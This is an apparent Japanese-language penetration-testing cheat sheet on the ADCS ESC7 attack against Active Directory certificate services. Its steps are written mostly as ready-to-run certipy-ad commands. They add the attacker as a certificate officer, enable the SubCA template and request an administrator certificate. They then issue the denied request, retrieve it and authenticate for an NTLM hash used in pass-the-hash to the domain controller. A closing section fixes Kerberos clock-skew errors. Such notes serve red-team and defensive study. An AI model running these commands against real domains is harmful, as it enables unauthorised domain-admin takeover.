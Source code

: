 # ESC7

ADCS ESC7 攻撃は、`ManageCA`アクセス権と `Manage Certificates` アクセス権の組み合わせを悪用する。この攻撃では、ManageCAアクセス権を持つ攻撃者は、自分自身を新しい担当者として追加し、自分自身にManage Certificatesアクセス権を付与することできる

その後、下位認証局 `SubCA` 証明書テンプレートを使用して証明書を要求できる。この要求は最初は拒否されるが、高い権限を持つ攻撃者は、以前に拒否された証明書要求を発行できる。これにより、権限を昇格し、ドメイン管理者としてアクセスできるようになる

## 前提条件 – ESC7 攻撃

ESC7攻撃を行うには、次の要件を満たす必要がある

- `ManageCA` 権限

- `Manage Certificates` 権限

  `ManageCA` アクセス権があれば、自分自身に `Manage Certificates` アクセス権を付与することができる。これは、ユーザーアカウントを新しい役員として追加することで実行できる

  ```
  certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -add-officer <USERNAME>
  ```

- 証明書テンプレートSubCA を有効にする
  - 証明機関 (CA) の管理**および**証明書の管理アクセス権を持つユーザーは、失敗した証明書要求を発行できる
  - SubCA 証明書テンプレートは ESC1 に対して脆弱だが、テンプレートに登録できるのは管理者のみ
  - ユーザーはSubCA に証明書を要求できる。この要求は最初は拒否されるが、マネージャーが承認して証明書を発行することができる

```
# すべてのtamplateを表示する
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -list-templates
```

証明書テンプレートSubCA を有効にする

```
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca "<CA_NAME>" -enable-template SubCA
```

## 証明書を要求する

### SubCA テンプレートを使用して証明書を要求する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -template SubCA -upn administrator@<DOMAIN>
```

### 失敗した証明書要求を発行する

```
# 以前に拒否されたリクエストIDを指定する
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -issue-request <id>
```

### 発行された証明書を取得する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -retrieve <id>
```

### 証明書を使用して認証する

```
certipy-ad auth -pfx administrator.pfx -dc-ip <DC_IP>
```

NTLMハッシュを取得すると Pass-The-Hash攻撃でDCにアクセスできる

[Pass-The-Hash]()



## 証明書取得の際にエラーが出るとき

攻撃端末と攻撃対象のサーバーの時間が同期されていないと `[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` というエラーが出て、失敗するので攻撃対象のサーバーの時間を同期する必要がある。

以下のコマンドでDNSサーバ―と時間を同期させる

```
sudo ntpdate -n <DNS_IP>
```

これでもうまくいかない場合、ネットワークタイムプロトコルの自動更新を無効にする

```
timedatectl set-ntp off
```

その後、時間をもう一度同期させるとできるはず

